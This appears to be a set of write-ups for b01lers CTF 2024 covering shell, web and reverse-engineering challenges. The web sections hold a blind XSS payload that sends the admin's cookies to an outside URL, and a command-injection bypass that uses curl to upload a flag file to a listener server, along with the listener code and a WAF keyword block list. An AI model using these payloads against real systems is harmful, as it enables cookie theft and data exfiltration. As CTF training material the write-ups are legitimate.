

# b0ilers CTF 2024 Writeups
Writeups for solved [b01lers CTF 2024](https://ctftime.org/event/2250) challenges

---

# misc
## misc/wabash
> wabash, its a river, but also a new shell! Flag is in /flag.txt

Shell challenge - it adds `wa` on start of each command and arguments seperated with spaces so commands and args will not work. Example input:
`cat /flag.txt` > `wacat wa/flag.txt`


**Solution**: `|cat</flag.txt` 

**flag: bctf{wabash:_command_not_found521065b339eb59a71c06a0dec824cd55}**

## misc/bash cat with pipe
It allows commands. but certain characters and words are getting filtered out like `()""$*?` among others. Also, the word `flag` is not allowed as input. 


**Solution**: 
`cat {f,}lag.txt`

**flag: bctf{owwwww_th4t_hurt}**

## misc/chest-mix
> Here's a minecraft world, the flag is on a piece of paper in the the chest by spawn, it's hard to miss. Version 1.20

We are given Minecraft world save file, look for ways to parse this. I found a chunk extractor script that can extract contents from a region save. From there we can grep each region for any minecraft chunk/block we want.


https://github.com/sudofox/minecraft-utils/blob/master/region-parser/region-parser.sh


```bash
# unzip the save file and under regions run the script for each .mca file
./region-parser.sh r.0.-1.mca 
./region-parser.sh r.0.0.mca 
# ... 

# after unpacking all we can check each content if it contains chest / paper
find . -name "*.nbt" -exec grep minecraft:chest {} \;
find . -name "*.nbt" -exec grep minecraft:paper {} \;

# we can just search for the flag 
find . -name "*.nbt" -exec grep -a bctf {} \;

```

flag: **bctf{ch1st_ch2st_ch3st_ch4st_ch5st}**

---
# web
## web/b01ler-ad
`#xss/blind #filter-bypass`

XSS challenge - We are allowed to input any html data we want and the admin visits that but the content should not contain quotes, double quotes and backticks:

Main challenge
```js
  const content = req.body.content.replace("'", '').replace('"', '').replace("`", '');
  const urlToVisit = CONFIG.APPURL + '/admin/view/?content=' + content;
```

We can use `String.fromCharCode` https://charcode98.neocities.org/ to avoid using quotes and encode our URL before sending it to the admin. Admin visits our site with their cookies in the query.

```python
import requests
url = 'http://b01ler-ads.hammer.b01le.rs/review'

# fetch('evil[.]com?cookie'=document.cookie)
payload = """
<script>
     var url = String.fromCharCode(104, 116, 116, 112, 58...)
     fetch(url+ encodeURI(document.cookie))
</script>
"""

encoded = "%3Cscript%3E%0A%20%20%20%20let%20url%20%3D%20String%2EfromCharCode%28104%2C%20116%2C%20116%2C%20112%2C%2058%2E%2E%2E%29%0A%20%20%20%20fetch%28url%20%20encodeURI%28document%2Ecookie%29%29%0A%3C%2Fscript%3E"

data = {
    'content':encoded
}

r = requests.post(url, data=data)
print(r.text)
```



flag: **bctf{wow_you_can_get_a_free_ad_now!}**


## web/3-city-elves-writeups
`#command-injection/blind #filter-bypass`

Command Injection challenge where we need to bypass a blacklisted words and leak a flag.png. To solve this I setup a file upload server after confirming i can do a curl command. 

Main challenge
```python
@app.route("/pentest_submitted_flags", methods=["POST"])
def submit():
    if request.is_json:
        # Retrieve JSON data
        data = request.json
        content = data["content"]
        if sus(content):
            return jsonify({"message": "The requested URL was rejected. Please consult with your administrator."}), 200
        else:
            filename = "writeup_" + secrets.token_urlsafe(50)
            os.system(f"bash -c \'echo \"{content}\" > {filename}\'")
            # Like I care about your writeup
            os.system(f"rm -f writeup_{filename}")
            return jsonify({"message": "Writeup submitted successfully"}), 200
    else:
        return jsonify({'error': 'Request data must be in JSON format'}), 400
```
waf.py
```python
def sus(content):
    taboo = [
    "bin",
    "base64",
    "export",
    "python3",
    "export",
    "ruby",
    "perl",
    "x",
    "/",
    "(",
    ")"
    "\\",
    #...snip more banned words
    ]
    for item in taboo:
        if item in content.lower():
            return True
    return False
```

We can bypass most of the linux command words using this technique `c''url` and to bypass the `/` we can do `${HOME:0:1}`. https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

The command I used does a POST request to my file upload server with the /flag.png attached in the body 

solve.py 
```python
import os
import requests 
from waf import sus

# curl -F data=/flag.png <ip:port>
payload = "cu''rl -F \"data=@${HOME:0:1}flag.png\" <redacted>"
content = f"""123" ; {payload} ; e''cho "123"""
assert not sus(content)
filename = "test"
command = f"bash -c \'echo \"{content}\" > {filename}\'"
print(content)
print(command)
# os.system(command) 

url = "https://threecityelf-53b6fe52e327b2cb.instancer.b01lersc.tf/pentest_submitted_flags"

json = {
    'content': content
}
r = requests.post(url, json=json)
print(r.text)
```


server.py 
```python
from flask import Flask, request
import os

app = Flask(__name__)

UPLOAD_FOLDER ='uploads'
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
@app.route('/', methods=["POST"])
def xfil():
    try:
        file = request.files['data']
        filename = file.filename
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
    except Exception as e:
        return str(e)
    return 'Success'
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8901)
```

To view the flag, I just opened the uploaded file under `/uploads` on the listener server




flag: **bctf{Lucky_you_I_did_not_code_this_stuff_in_Ruby_lasudkjklhdsfkhjkae}**

---
# rev
## rev/Annnnnnny Second Now
Analyze in ghidra and learn that the `super_optimized_calculation` is not so optimized. It just returns the nth fibonacci number

We can just hardcode it and run it will print the flag

```c
#include <stdio.h>
int main{
    unsigned long long uVar1;
    // ....
    local_78[20] = 0xc1;
    local_78[21] = 0x161;
    local_78[22] = 0x10d;
    local_78[23] = 0x1e7;
    local_78[24] = 0xf5;
    // uVar1 = super_optimized_calculation(0x5a);
    uVar1 = 2880067194370816120; // 0x5a/90th fibonacci number
    for (local_84 = 0; local_84 < 0x19; local_84 = local_84 + 1) {
        putc((int)(uVar1 % (unsigned long long)local_78[(int)local_84]),stdout);
    }
    putc(10,stdout);
    if (local_10 != *(unsigned long *)(in_FS_OFFSET + 0x28)) {
        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    return 0;
}
```

flag: **bctf{what's_memoization?}**

## rev/js-safe
`#js #deobfuscation`

The original file provided is obfuscated. which can be deobfuscated here: https://obf-io.deobfuscate.io/

The main challenge is under addToPassword function doing comparisons and operations.

Basically, It just checks the index if it matches with the corresponding operation on the right. If we start from the button we will know that `arr[3] = 82` and then work up from there. `82 ^ 0x36 = 100` etc..
```js
function addToPassword(_0x43b7e8) {
    if (guess.length < 0x6) {
      guess += _0x43b7e8;
      _0x38a66f();
      if (guess.length === 0x6) {
        let arr = Array(0x6);
        for (let i = 0x0; i < 0x6; i += 0x1) {
          arr[i] = guess[i].charCodeAt(0x0);
        }
        // 48-57
        let _0x4cedc7 = true;
        _0x4cedc7 &= arr[0x4] == arr[0x1] - 0x4; // a[4] 48
        _0x4cedc7 &= arr[0x1] == (arr[0x0] ^ 0x44); // a[1] 52
        _0x4cedc7 &= arr[0x0] == arr[0x2] - 0x7; 
        _0x4cedc7 &= arr[0x3] == (arr[0x2] ^ 0x25); // a[3] 82
        _0x4cedc7 &= arr[0x5] == (arr[0x0] ^ 0x14); 
        _0x4cedc7 &= arr[0x4] == arr[0x1] - 0x4;  
        _0x4cedc7 &= arr[0x0] == (arr[0x3] ^ 0x22); 
        _0x4cedc7 &= arr[0x0] == arr[0x2] - 0x7;   // a[0] 112
        _0x4cedc7 &= arr[0x0] == arr[0x5] + 0xc; // a[0] 112
        _0x4cedc7 &= arr[0x2] == arr[0x4] + 0x47;   // a[2] 119
        _0x4cedc7 &= arr[0x2] == (arr[0x5] ^ 0x13); // a[2] 119
        _0x4cedc7 &= arr[0x5] == (arr[0x3] ^ 0x36); // a[5] 100
        _0x4cedc7 &= 0x52 == arr[0x3]; // a[3] 82
        // 112 52 119 82 48 100 = "p4wR0d"
        if (_0x4cedc7) {
          document.getElementById("display").classList.add("correct");
          let _0x401b01 = CryptoJS.AES.decrypt("U2FsdGVkX19WKWdho02xWkalqVZ3YrA7QrNN4JPOIb5OEO0CW3Qj8trHrcQNOwsw", guess).toString(CryptoJS.enc.Utf8);
        //   let _0x401b01 = CryptoJS.AES.decrypt("U2FsdGVkX19WKWdho02xWkalqVZ3YrA7QrNN4JPOIb5OEO0CW3Qj8trHrcQNOwsw", "p4wR0d").toString(CryptoJS.enc.Utf8);
          console.log(_0x401b01);
          document.getElementById("display").textContent = _0x401b01;
        } else {
          document.getElementById("display").classList.add("wrong");
        }
      }
    }
  }
```
After getting the key `p4wR0d` we can just decrypt it using the following:
```js
CryptoJS.AES.decrypt("U2FsdGVkX19WKWdho02xWkalqVZ3YrA7QrNN4JPOIb5OEO0CW3Qj8trHrcQNOwsw", "p4wR0d").toString(CryptoJS.enc.Utf8);
```

flag: **bctf{345y-p4s5w0rd->w<}**


